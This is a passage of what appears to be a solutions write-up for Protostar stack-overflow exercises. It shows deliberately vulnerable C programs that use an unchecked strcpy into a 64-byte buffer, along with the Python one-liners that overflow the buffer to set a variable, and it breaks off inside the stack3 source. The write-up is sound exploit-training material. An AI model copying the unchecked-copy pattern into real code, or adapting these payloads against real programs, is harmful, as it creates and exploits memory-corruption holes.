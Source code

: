 ```
./stack1 `python -c 'print "a"*64 + "abcd"[::-1]'`
you have correctly got the variable to the right value
```

# Stack 2 #

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

```
export GREENIE=`python -c 'print "a"*64 + "\x0d\x0a\x0d\x0a"[::-1]'`
./stack2
you have correctly modified the variable
```

# Stack 3 #

```c

#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;
```